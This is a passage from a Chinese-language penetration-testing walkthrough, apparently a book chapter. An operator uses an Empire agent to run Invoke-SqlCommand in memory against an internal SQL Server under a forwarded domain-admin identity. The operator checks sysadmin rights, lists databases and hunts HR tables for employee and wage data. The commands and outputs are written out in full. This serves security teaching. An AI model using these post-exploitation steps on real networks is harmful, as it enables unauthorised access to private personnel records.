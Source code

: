 ```
 Express Edition (64-bit) on Windows NT 6.2 <X64>
```


有几点值得一提：
- 脚本Invoke-SqlCommand.ps1由代理加载到内存中。它没有触及远程服务器上的磁盘。
- 由于我们并不真正了解数据库的布局，因此我们选择了一个默认的访问方式：master。或者我们也可以像其他很多人一样用用tempdb。
- 我们正在处理一个2008年的SQL服务器。
- 我们不必提供凭据，因为Windows会自动转发svc_ps的标识。显然，作为域管理员就足以访问数据库。

是时候找点乐趣了！在数据库中要做的第一件事是检查当前用户的权限。SQL查询如下(渗透测试人员Monkey的博客有一组SQL查询，这些查询在渗透中很有用http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)：
```
"SELECT is_srvrolemember('sysadmin')"
```
![](chap5/chap5-17.jpg)

如所料，我们对系统拥有完全的权限。我们可以使用以下查询列出当前数据库：
```
"SELECT name FROM master.dbo.sysdatabases "
```

由于此请求很可能返回多个列，因此我们需要将输出格式转换为字符串，以便能够通过Empire代理查看它。我们将向Invoke SqlCommand追加以下指令：“| out string”：
```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query " SELECT name FROM
master.dbo.sysdatabases" | out-string
Job started: Debug32_ie9lg
name 
---- 
master
tempdb
model
msdb
[…]
HR_master
[…]
```

HR_master似乎是最合理的选择…与其列出它的表格（很容易就有几千个）并手动浏览每一个表格，我们只需搜索包含关键字的表格：设计师、员工、工资等，就可以解决大海捞针的问题:
```
select table_name from hr_master.information_schema.tables where
table_type = 'base table' and table_name like '%employee%'
```

```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query SELECT TABLE_NAME FROM
HR_master.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE
TABLE'" | out-string

Job started: Debug32_azd0k
table_name 
---- 
HR_Employee_DE_Full
HR_Employee_wages_ref
HR_Employee_raise
HR_Employee_eval
HR_Employee_perf
[…]
```
